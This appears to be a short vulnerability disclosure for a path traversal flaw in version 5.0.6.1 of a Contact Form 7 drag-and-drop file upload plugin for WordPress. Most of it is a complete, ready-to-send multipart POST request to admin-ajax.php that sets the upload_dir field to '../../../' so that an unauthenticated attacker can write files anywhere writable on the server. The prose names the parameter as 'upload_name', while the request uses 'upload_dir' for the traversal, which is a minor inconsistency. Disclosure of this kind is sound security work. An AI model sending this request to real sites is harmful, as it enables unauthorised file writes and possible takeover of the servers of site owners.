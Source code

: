 # Drag and Drop Multiple File Uploader PRO - Contact Form 7 v5.0.6.1 Path Traversal

# Info
Path Traversal in Drag and Drop Multiple File Uploader PRO - Contact Form 7 version 5.0.6.1 allows unauthenticated remote attacker to upload files anywhere writable on the remote server.

To exploit this vulnerability, the attacker needs to upload a file using the plugin's form. On this post request there needs to be the parameter `upload_name`, which value is the name of the folder to which the file will be uploaded. The attacker can put anything he wants, such as `../`, `../../../`, `foldername` (it will create the folder "foldername" on the upload directory), etc.

# Example

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: example.org
Content-Length: 756
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIzvIrbHjHpxzepPi
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)

------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="size_limit"

2e+9
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="action"

dnd_codedropz_upload
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="upload_dir"

../../../
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="post_id"

1868
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="security"

0a4dca2b89
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="form_id"

9210
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="upload_name"

foto
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="upload-file"; filename="pngout.png"
Content-Type: image/png

// image contents
------WebKitFormBoundaryIzvIrbHjHpxzepPi--

```
# Screenshots

### Normal request
![image](https://user-images.githubusercontent.com/3837916/216743824-2a11a7e6-d954-4a1d-ac98-7ddc0d996dcd.png)

### Malicious request
![image](https://user-images.githubusercontent.com/3837916/216743964-378a88d4-ed53-481b-a748-8c09c9868070.png)

### Malicious request successully uploaded the file to the webserver root
![image](https://user-images.githubusercontent.com/3837916/216744024-50997229-58d5-4e76-9e74-aa4c9fc27a00.png)
